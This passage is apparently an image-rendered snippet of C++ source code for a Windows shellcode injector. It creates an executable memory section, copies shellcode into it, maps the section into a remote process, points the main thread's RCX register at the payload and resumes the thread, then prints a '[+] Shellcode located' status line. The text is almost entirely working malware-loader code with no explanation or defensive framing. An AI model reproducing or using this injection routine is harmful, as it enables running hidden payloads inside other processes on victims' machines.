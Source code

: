 ```
    NtMapViewOfSection ntMapViewOfSection = (NtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
    NtUnmapViewOfSection ntUnmapViewOfSection = (NtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");

    // create section in local process
    HANDLE hSection;
    LARGE_INTEGER szSection = { shellcode.size() };

    NTSTATUS status = ntCreateSection(
        &hSection,
        SECTION_ALL_ACCESS,
        NULL,
        &szSection,
        PAGE_EXECUTE_READWRITE,
        SEC_COMMIT,
        NULL);

    // map section into memory of local process
    PVOID hLocalAddress = NULL;
    SIZE_T viewSize = 0;

    status = ntMapViewOfSection(
        hSection,
        GetCurrentProcess(),
        &hLocalAddress,
        NULL,
        NULL,
        NULL,
        &viewSize,
        ViewShare,
        NULL,
        PAGE_EXECUTE_READWRITE);

    // copy shellcode into local memory
    RtlCopyMemory(hLocalAddress, &shellcode[0], shellcode.size());

    // map section into memory of remote process
    PVOID hRemoteAddress = NULL;

    status = ntMapViewOfSection(
        hSection,
        process_info->hProcess,
        &hRemoteAddress,
        NULL,
        NULL,
        NULL,
        &viewSize,
        ViewShare,
        NULL,
        PAGE_EXECUTE_READWRITE);

    // get context of main thread
    LPCONTEXT pContext = new CONTEXT();
    pContext->ContextFlags = CONTEXT_INTEGER;
    GetThreadContext(process_info->hThread, pContext);

    // update rcx context
    pContext->Rcx = (DWORD64)hRemoteAddress;
    SetThreadContext(process_info->hThread, pContext);

    // resume thread
    ResumeThread(process_info->hThread);
```

[+]: Shellcode located at c7160